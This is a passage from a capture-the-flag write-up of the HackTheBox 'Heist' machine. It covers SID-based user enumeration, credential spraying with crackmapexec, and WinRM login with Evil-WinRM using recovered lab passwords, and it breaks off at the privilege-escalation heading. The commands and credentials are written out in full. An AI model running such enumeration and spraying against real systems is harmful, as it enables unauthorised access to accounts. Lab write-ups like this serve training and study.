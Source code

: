 We can list all users on the system:

```bash
lookupsid.py SUPPORTDESK/hazard:stealth1agent@10.10.10.149
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/lookupsid.png)

We discover additional users and update our wordlist:  

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/users_updated.png)

### 4.3 Credential Spraying

```bash
crackmapexec smb 10.10.10.149 -u users.txt -p passwds.txt --continue-on-success
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/crackmapexec_smb_chase.png)

New valid user: **Chase**

Check WinRM access:

```bash
crackmapexec winrm 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/crackmapexec_winrm_chase.png)

Access confirmed.

---
## 5. Foothold

### 5.1 Evil-WinRM Access

```bash
evil-winrm -i 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/user_flag.png)

🏁 **User flag obtained**

### 5.2 Privilege Enumeration

```bash
whoami /all
```

![](GitHubv2/HackTheBox/EASY/Heist/screenshots/chase_whoami_all.png)

No exploitable privileges found.

---
## 6. Privilege Escalation
